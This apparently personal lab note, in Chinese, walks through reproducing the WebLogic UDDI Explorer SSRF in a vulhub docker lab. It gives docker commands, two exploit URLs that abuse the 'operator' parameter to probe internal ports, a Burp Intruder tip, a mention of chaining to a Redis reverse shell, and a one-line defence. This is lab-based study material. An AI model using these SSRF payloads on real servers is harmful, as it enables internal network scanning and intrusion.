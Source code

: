 ```yaml
---
title: weblogic ssrf
categories:
- web
tags:
- web
---
```




参考资料：https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf

## docker空间管理
```
du -h --max-depth=1 寻找当前目录，哪个文件夹占用空间最大
docker system prune -a  删除镜像
docker system df    查看磁盘使用情况
docker-compose down -v 删除正在用的实例
```
## ssrf
```
cd /usr/share/vulhub-master/weblogic/ssrf
docker-compose build
docker-compose up -d
pkill rinetd  ##关闭进程
rinetd -c /etc/rinetd.conf  ##启动转发
---
docker-compose down -v
```

ssrf是服务端请求伪造，意思是服务器接受我们的请求后，然后向内网发起扫描等有害操作。该漏洞出现的原因是服务器需要向内网其他机器获取资源，在请求的过程中，参数可被攻击方修改。

下图是weblogic典型的界面。下面我们看看怎么利用它。
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-29-04/1.PNG)

访问以下地址：
```
http://18.189.18.237:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001

http://18.189.18.237:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7002
```
用burp intruder可以看到7001页面显示的长度，和其他端口不同，说明7001端口开放。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/09-29-04/5.PNG)

如果内网有其他web漏洞可以反弹shell，例如redis...也可以通过上面的`operator=http://127.0.0.1:7002`参数反弹shell

## 防御方法
过滤参数，禁止参数访问内网IP，例如上文所说的operator参数。


